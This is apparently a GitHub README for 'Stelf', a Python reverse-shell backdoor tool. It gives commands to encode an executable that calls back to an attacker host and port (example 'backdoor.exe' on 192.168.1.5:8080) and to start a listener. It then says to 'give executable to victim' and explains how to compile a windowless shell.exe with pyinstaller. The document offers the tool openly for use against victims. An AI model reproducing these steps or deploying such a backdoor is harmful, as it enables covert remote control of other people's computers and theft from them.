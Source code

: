 # Stelf
### Shell That Excercises Limited Fanfare

## Usage


##### Encode your executable:
```
python2 encode.py lhost lport output.exe
```

e.g

```
python2 encode.py 192.168.1.5 8080 backdoor.exe
```
##### Start handler
```
python2 handler.py
```

##### Give executable to victim 

Rejoice

## Compiling the executable yourself - optional

#### Steps to Install:

- Install [Python2.7](https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi)
- Install [Microsoft Visual C++ 9.0](https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)
- pip install -r requirements.txt

##### Compile the shell manually:

```
pyinstaller --noconsole --onefile shell.py
```

Your file will be in dist/shell.exe

Enjoy!
